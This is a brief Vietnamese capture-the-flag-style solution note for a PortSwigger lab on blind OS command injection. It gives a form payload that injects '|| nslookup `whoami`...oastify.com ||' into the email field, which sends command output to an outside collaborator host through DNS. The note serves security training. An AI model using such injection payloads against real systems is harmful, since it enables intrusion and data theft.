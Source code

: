 # [Lab: Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

Tóm tắt: làm tương tự như [4. lab-blind-out-of-band](../../../../../../learn/portswigger/Web%20Security%20Academy/OS%20command%20injection/lab/practitioner/4.%20lab-blind-out-of-band.md)

## Solution
Làm như lab [4. lab-blind-out-of-band](../../../../../../learn/portswigger/Web%20Security%20Academy/OS%20command%20injection/lab/practitioner/4.%20lab-blind-out-of-band.md), thay đổi payload để kèm theo output của lệnh trong subdomain:
```
csrf=xGy0pDtjhMBMBotIgqntHFoqwpoxezA4&name=a&email=a%40a.a+||+nslookup+`whoami`.xtugc9rynm67hxzt8w02dsc0wr2iq7.oastify.com+||+&subject=a&message=a
```

![c64809ede97611dd44c1f94e93ec5087.png](../../../../../../_resources/c64809ede97611dd44c1f94e93ec5087.png)

Kết quả: ![72b21f86c1d6fbdbc039e730e78ace22.png](../../../../../../_resources/72b21f86c1d6fbdbc039e730e78ace22.png)

**Lab Solved**